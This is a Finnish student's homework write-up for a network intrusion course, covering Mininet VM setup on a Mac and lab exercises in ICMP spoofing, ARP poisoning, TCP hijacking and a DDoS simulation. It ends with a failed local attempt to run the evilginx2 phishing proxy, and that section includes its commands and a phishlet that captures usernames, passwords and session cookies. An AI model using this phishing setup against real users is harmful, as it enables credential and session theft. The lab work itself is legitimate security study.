## h4 NFC ja RFID

Tehtävät ovat Tero Karvisen ja Lari Iso-Anttilan opintojaksolta [Verkkoon tunkeutuminen ja tiedustelu](https://terokarvinen.com/verkkoon-tunkeutuminen-ja-tiedustelu/) [^1], [^2].

---

## Mininet

Henry (Henryn kotisivu [^3]) auttoi minua tunnilla paljon ja neuvoi, että Iso-Anttilan virtuaalikone tiedoston voi purkaa komennolla:

```
tar -xvJf mininet-lab.ova.xz
```

ja tämän jälkeen .vmdk voi muuttaa .qcow2 joka toimii emuloiden Macilla (itse käytän UTM). Muunnoksen voi tehdä komennolla 

```
qemu-img convert -O qcow2 mininet-lab-disk1.vmkd Mininet.qcow2
```

Tämän jäkeen asentaminen UTM:llä voi tehdä vastaavasti kuin olin aiemmin asentanut Metasploitable2:sen (e-tehtävä) [^4]. 

Tunnilla ohjeistettiin kopioimaan Mininet virtuaalikoneelle oikeat tehtävät ja luettuna README.md tehtävistä koitin ajaa seuraava python komentoa, josta tuli seuraavaa: 



Ohjeena myöhemmin tullut `/.get_xauth.sh` ei muuttanut ongelmaani, joka oli virheilmoitus 'Error: Cannot connect to display'. Tunnilla Iso-Anttilalla oli Macilla ohjelma XQuarzt [^5] ja myös Henry neuvoi tunnilla minua asentamaan sen, joten asensin sen tässä vaiheessa. Ohjelman asentaminen ei kuitenkaan ratkaissut ongelmaa ja sama error säilyi.

Koska setuppini Macilla on poikkeava ei Mac käyttäjien setupista aloin etsiä ohjeita netistä. Tämän ohjeen avulla [^6] (sisältää linkin myös [^7]) muutin UTM:n network asetuksia tekemään port forwardin portista 8022 portiin 22. Myös Mininetin oman dokumentaation [^12] Qemulla, jota UTM käyttää pitäisi tehdä forwardin. Luettuani myös Minintin GitHub sivua [^8] päätin alkaa kokeilla kirjatumista mininet virtuaalikoneelle komennolla: 

```
ssh -Y -p 8022 mininet@127.0.0.1
```

Ongelma ei vieläkään postinut, mutta tämän Stack Overflow keskustelun [^9] perusteella oletin, että komennon `echo $DISPLAY` pitäisi palauttaa jotain. Itselläni se ei palauttanut mitään. Tässä välissä löysin tämän keskustelun [^10] ja sen perusteella muutin `/etc/ssh/sshd_config` seuraavasti (jälkikäteen ajateltuna varmaan turhaa, koska tuo `/.get_xauth.sh` olis ehkä tehnyt saman, toki en ole varma tuosta localhostista 🤔):



Kokeilin kaissa väleissä tuota `echo $DISPLAY`, mutta se säilyi edelleen tyhjänä. Jossain välissä olin vaihtanut XQuartz:n asetuksista 'Allow connection from network clients' ja mietin, että tarvisiko sen tai jonkun muun aktivoituminen jonkinlaisen uudelleenkäynnistyksen ja koska en keksinyt mitään muutakaan päätin käynnistää koneen uudelleen (kuvassa muutettu asetus). 



Se auttoi ja seuraavaksi kun ajoin `echo $DISPLAY` sain vastaukseksi:

```bash
mininet@mininet-vm:~$ echo $DISPLAY
localhost:10.0
```

Seuraaksi menin kokeilemaan `~/lab/Network-Security-Lab/scripts$ sudo python hub_topo.py` ja sain uuden virheilmoituksen:



Sitten ajoin Iso-Anttilan ohjeella [^11] komennot:

```bash
./get_xauth.sh #skripti Mininet vm:n kotihakemistossa
```

```bash
sudo -s xauth add mininet-vm/unix:10  MIT-MAGIC-COOKIE-1  d52b161e307d1c34bcbd8decb60fb95a
```

Tässä selkeyden vuoksi ja nyt XQuarzt avasi uuden terminaali-ikkunan.

```bash
mininet@mininet-vm:~$ ./get_xauth.sh
mininet-vm/unix:10  MIT-MAGIC-COOKIE-1  d52b161e307d1c34bcbd8decb60fb95a
mininet@mininet-vm:~$ sudo -s xauth add mininet-vm/unix:10  MIT-MAGIC-COOKIE-1  d52b161e307d1c34bcbd8decb60fb95a
mininet@mininet-vm:~$ cd lab/Network-Security-Lab/scripts/
mininet@mininet-vm:~/lab/Network-Security-Lab/scripts$ sudo python hub_topo.py
*** Creating nodes
*** Creating Links
*** Starting network
*** Configuring hosts
h1 h2 h3 h4
disable ipv6
disable ipv6
disable ipv6
disable ipv6
disable ipv6
*** Running CLI
*** Starting CLI:
mininet> xterm h1
mininet>
```




## Varsinainen tehtävät 

### Network-Security-Lab (mininet) https://github.com/ssam246/Network-Security-Lab [^13]

##### Task 1: ICMP Spoofing Attack

Avasin itselleni kaksi Nodea

```bash
mininet> xterm h1
mininet> xterm h2
```



Annoin ohjeen [^13] mukaisen komennon `python sniff_icmp.py` h1:ssä ja komento jää odottamaan. Kun teen  h2:ssa `ping 10.0.0.1` tapahtuu seuraavaa: 



10.0.0.1 on h1:sen ip-osoite mininetissä ja 10.0.0.2 on h2:sen. Python scripti mahdollistaa ICMP pakettin kaappaamisen [^13]. ICMP (Internet Control Message Protocol) on TCP/IP pinon kontrolliprotokolla, joka lähettää kommunikoinnin onnistunut tai epäonnistunut viestejä [^14].

Kokeillaan seuraavaksi spoofing scriptiä.



Näkyy Host 2 samanlaisena kuin aiemmin. Tämä varmastikin demonstroi sitä, että jos scriptiä muuttaisi saisi pyynnön tekijälle lähteviä vastauksia muutettua.

##### Task 2: MITM Attack Using ARP Cache Poisoning



En aluksi ihan ymmärtänyt mitä tapahtuu, mutta olin tästä videosta [^15], että näissä Nodeissa on wireshark ja koitin avata sitä samaan aikaan kun arp-cache poisoning on käynissä ja en onnistunut, mutta huomasin, että wiresharkissa oli valmiina .pcapng tiedosto nimellä 'arp.poison', joten scripti tallensi kaiken automaattisesti. Kuten kuvasta näkyy h3 näkee suoraan ARP pyynnöt h1 ja h2 välillä.




##### Task 3: TCP Session Hijacking

Kaappaus tulostuu terminaaliin.



En ole ihan varma meneekö tämä ihan oikein, koska kuuntelevaan tcp-serveriin eli h1:seen ei tule ilmoitusta saapuneesta h3:sen lähettämästä tekaistusta paketista 🤔 



---

### ARP Poisoning, redirect ssh connection to another host


---

### SDN_DDoS_Simulation https://github.com/santhisenan/SDN_DDoS_Simulation [^16]

DDoS hyökkäys tarkoittaa kohteen serverin liikenteen ruuhkauttamista niin, että sen normaali toiminta estyy [^17]

Ajetaan ohjeiden mukaan [^16] alla olevasta hakemistosta tree_topology.py

```bash
mininet@mininet-vm:~/lab/SDN_DDoS_Simulation$ ls
app.py  LICENSE  networks     README.md            simple_tree_top.py  tree_topology.py
ddpg    main.py  __pycache__  simple_switch_13.py  traffic.pcap
```

```bash
mininet@mininet-vm:~/lab/SDN_DDoS_Simulation$ python tree_topology.py
*** Mininet must run as root.
```

```bash
root@mininet-vm:/home/mininet/lab/SDN_DDoS_Simulation# ls
app.py  LICENSE  networks     README.md            simple_tree_top.py  tree_topology.py
ddpg    main.py  __pycache__  simple_switch_13.py  traffic.pcap
root@mininet-vm:/home/mininet/lab/SDN_DDoS_Simulation# python tree_topology.py
Unable to contact the remote controller at 127.0.0.1:6653
Unable to contact the remote controller at 127.0.0.1:6633
Setting remote controller to 127.0.0.1:6653
Episode 0
host1 is attacking and host4 is sending normal requests
Episode 1
host6 is attacking and host0 is sending normal requests
Episode 2
host2 is attacking and host1 is sending normal requests
Episode 3
host2 is attacking and host5 is sending normal requests
Episode 4
host4 is attacking and host2 is sending normal requests
Episode 5
host2 is attacking and host1 is sending normal requests
Episode 6
host2 is attacking and host5 is sending normal requests
Episode 7
host4 is attacking and host5 is sending normal requests
Episode 8
host6 is attacking and host0 is sending normal requests
Episode 9
host2 is attacking and host0 is sending normal requests
Episode 10
host1 is attacking and host2 is sending normal requests
Episode 11
host3 is attacking and host4 is sending normal requests
Episode 12
host1 is attacking and host2 is sending normal requests
Episode 13
host3 is attacking and host2 is sending normal requests
Episode 14
host6 is attacking and host3 is sending normal requests
Episode 15
host3 is attacking and host1 is sending normal requests
Episode 16
host0 is attacking and host2 is sending normal requests
```

En ymmärtänyt ihan täysin miten tätä olisi voinut tarkastella tarkemmin. 

---

### Network-Security-Lab (General) https://github.com/karthik2522/Network-Security-Lab [^18]


---


### a) Tutustu seuraavaan työkaluun https://github.com/kgretzky/evilginx2 [^19]

- Asensitko työkalun, jos asensit niin kirjoita miten sen teit.

Evilginx2 näyttää löytyvän paketinhallinnasta:

```bash
┌──(parallels㉿kali-linux-2024-2)-[~]
└─$ apt-cache search evilginx2                    
evilginx2 - man-in-the-middle attack framework
evilginx2-dbgsym - debug symbols for evilginx2
```

```
sudo apt-get install evilginx2
```

- Mitä teit työkalun kanssa?

Katsoin ensin Clint & Si:n videon [^20], jossa demonstroidaan työkalun käyttöä. Aika hurja. 

Halusin kokeilla voinko huijata itseltäni crendentiaalit ja tein Spring Boot sovelluksen, jossa on kirjautuminen. 

Voi olla, että ehkä pääsin aika lähelle.   

Ensimmäinen kokeilulla millä sain phishing osoitteen, joka ei kuitenkaan toiminut. Komennot videolta [^20].

```bash
[20:45:08] [inf] Evilginx Mastery Course: https://academy.breakdev.org/evilginx-mastery (learn how to create phishlets)                                                                                             
[20:45:08] [inf] loading phishlets from: /usr/share/evilginx2/phishlets/
[20:45:08] [inf] loading configuration from: /home/parallels/.evilginx
[20:45:08] [inf] blacklist: loaded 0 ip addresses and 0 ip masks
[20:45:08] [war] phishlets: hostname 'academy.breakdev.org' collision between 'spring' and 'example' phishlets

+-----------+-----------+-------------+-----------+-------------+
| phishlet  |  status   | visibility  | hostname  | unauth_url  |                                         
+-----------+-----------+-------------+-----------+-------------+                                         
| example   | disabled  | visible     |           |             |                                         
| spring    | disabled  | visible     |           |             |                                         
+-----------+-----------+-------------+-----------+-------------+                                         

: config domain breakdev.org
[20:45:40] [inf] server domain set to: breakdev.org
: config ipv4 127.0.0.1
[20:45:51] [inf] server external IP set to: 127.0.0.1
: phishlets hostname spring academy.breakdev.org
[20:46:06] [inf] phishlet 'spring' hostname set to: academy.breakdev.org
[20:46:06] [inf] disabled phishlet 'spring'
: phishlets enable spring
[20:46:47] [war] phishlets: hostname 'academy.breakdev.org' collision between 'spring' and 'example' phishlets
[20:46:47] [inf] enabled phishlet 'spring'
: phishlets get-url spring
[20:47:47] [err] phishlets: invalid syntax: [get-url spring]
: lures create spring
[20:48:09] [inf] created lure with ID: 0
: lures get-url 0

https://academy.academy.breakdev.org/WWWKtTHt

```

Tässä oli ehkä enemmän järkeä, mutta en ole ole kyllä varma. Lopussa oleva error ilmoitus käy kyllä järkeen (ehkä Evilginx tarvitsee toimiakseen https yhteydellä olevan sivun).  

```bash
[21:23:03] [inf] Evilginx Mastery Course: https://academy.breakdev.org/evilginx-mastery (learn how to create phishlets)                                                                                             
[21:23:03] [inf] loading phishlets from: /usr/share/evilginx2/phishlets/
[21:23:03] [inf] loading configuration from: /home/parallels/.evilginx
[21:23:04] [inf] blacklist: loaded 0 ip addresses and 0 ip masks

+-----------+-----------+-------------+-----------+-------------+
| phishlet  |  status   | visibility  | hostname  | unauth_url  |                                         
+-----------+-----------+-------------+-----------+-------------+                                         
| spring    | disabled  | visible     |           |             |                                         
+-----------+-----------+-------------+-----------+-------------+                                         

: config domain security-update.com
[21:23:38] [inf] server domain set to: security-update.com
: config ipv4 127.0.0.1
[21:23:49] [inf] server external IP set to: 127.0.0.1
: phishlets hostname spring security-update.com
[21:24:47] [inf] phishlet 'spring' hostname set to: security-update.com
[21:24:47] [inf] disabled phishlet 'spring'
: phishlets enable spring
[21:25:07] [inf] enabled phishlet 'spring'
: lures create spring
[21:25:26] [inf] created lure with ID: 3
: lures get-url 3

https://academy.security-update.com/RnXXpBCk

[21:27:53] [err] http_proxy: failed to get TLS certificate for: academy.breakdev.org:443 error: EOF
[21:27:53] [err] http_proxy: failed to get TLS certificate for: academy.breakdev.org:443 error: EOF
: 2025/05/06 21:27:53 [001] WARN: Error responding to client: write tcp 127.0.0.1:443->127.0.0.1:33042: i/o timeout
2025/05/06 21:27:53 [002] WARN: Error responding to client: write tcp 127.0.0.1:443->127.0.0.1:33058: i/o timeout
```

/etc/hosts lisäykset:

```bash
127.0.0.1   academy.breakdev.org
127.0.0.1  breakdev.org
127.0.0.1  academy.academy.breakdev.org

127.0.0.1 security-update.com academy.security-update.com
```

Phislet, jota käytin (kohdat: custom_ip: '127.0.0.1', custom_port: 8080, custom_protocol: 'http' on ChatGPT [^21] tarjoamia (varmanaankin sekoilua, paitsi, että custom_ip ehkä toimi 🤔) ):

```yaml
min_ver: '3.0.0'

proxy_hosts:
  - {phish_sub: 'academy', orig_sub: 'academy', domain: 'breakdev.org', session: true, is_landing: true, auto_filter: true, custom_ip: '127.0.0.1', custom_port: 8080, custom_protocol: 'http'}

auth_tokens:
  - domain: '.academy.breakdev.org'
    keys: ['JSESSIONID']

credentials:
  username:
    key: 'username'
    search: '(.*)'
    type: 'post'
  password:
    key: 'password'
    search: '(.*)'
    type: 'post'

login:
  domain: 'academy.breakdev.org'
  path: '/login'
```

Ehkä toimivat Evilginx komennot olivat siis:

```
config domain security-update.com
```

```
config ipv4 127.0.0.1
```

```
phishlets hostname spring security-update.com
```

```
phishlets enable spring
```

```
lures create spring
```

```
lures get-url <number> 
```

Valitettavasti pitää ajanpuutteen vuoksi siirtyä eteenpäinä, mutta pitää koittaa niin, että tekee seuraavaksi selfsignatulla certillä.

- Onnistuitko huijaamaan liikennettä

En valitettavasti. 

---


---

## Lähteet

[^1]: Tero Karvinen. Verkkoon tunkeutuminen ja tiedustelu: https://terokarvinen.com/verkkoon-tunkeutuminen-ja-tiedustelu/

[^2]: Lari Iso Anttila. 5. Laboratorio- ja simulaatioympäristöt hyökkäyksissä, moodle: https://hhmoodle.haaga-helia.fi/course/view.php?id=42566&section=1#tabs-tree-start

[^3]: Henry Isakoff: https://henry.isakoff.fi

[^4]: pinkkila. https://github.com/pinkkila/tunkeutumistestaus/blob/main/h1-kybertappoketju.md

[^5]: XQuarzt. https://www.xquartz.org

[^6]: To Kin Hang. How to open xterm for mininet on MacOS: https://im424.medium.com/how-to-open-xterm-for-mininet-on-macos-aae87218cdd9

[^7]: Tharun Shiv. Easy way to SSH into VirtualBox machine | Any OS: https://dev.to/developertharun/easy-way-to-ssh-into-virtualbox-machine-any-os-just-x-steps-5d9i?source=post_page-----aae87218cdd9---------------------------------------

[^8]: mininet: https://github.com/mininet/mininet/wiki/FAQ#x11-forwarding

[^9]: Stack Overflow. xterm not working in mininet: https://stackoverflow.com/questions/38040156/xterm-not-working-in-mininet

[^10]: Stack Exchange. annoying message "X11 connection rejected because of wrong authentication" while there is no problem at all: https://unix.stackexchange.com/questions/162979/annoying-message-x11-connection-rejected-because-of-wrong-authentication-while

[^11]: Lari Iso-Anttila: https://hhmoodle.haaga-helia.fi/pluginfile.php/4252431/mod_resource/content/1/03-mininet.pdf

[^12]: mininet. Mininet VM Setup Notes: https://mininet.org/vm-setup-notes/

[^13]: ssam246. Network-Security-Lab: https://github.com/ssam246/Network-Security-Lab

[^14]: Wikipedia. Internet Control Message Protocol: https://en.wikipedia.org/wiki/Internet_Control_Message_Protocol

[^15]: Layla Gallez. Running Mininet on an M1 with Ubuntu and Parallels: https://www.youtube.com/watch?v=09NF3rzT92M

[^16]: santhisenan. SDN_DDoS_Simulation: https://github.com/santhisenan/SDN_DDoS_Simulation

[^17]: IBM Techology. What is a DDoS Attack?: https://www.youtube.com/watch?v=z503nLsfe5s

[^18]: karthik2522. Network-Security-Lab: https://github.com/karthik2522/Network-Security-Lab

[^19]: kgretzky. Evilginx 3.0: https://github.com/kgretzky/evilginx2

[^20]: Clint & Si. GitHub Phishing Attack: Evilginx2 MFA Bypass Explained | 2024: https://www.youtube.com/watch?v=e7SebbYUS2w

[^21]: OpenAI. ChatGPT: Version 1.2025.112, Model GPT‑4o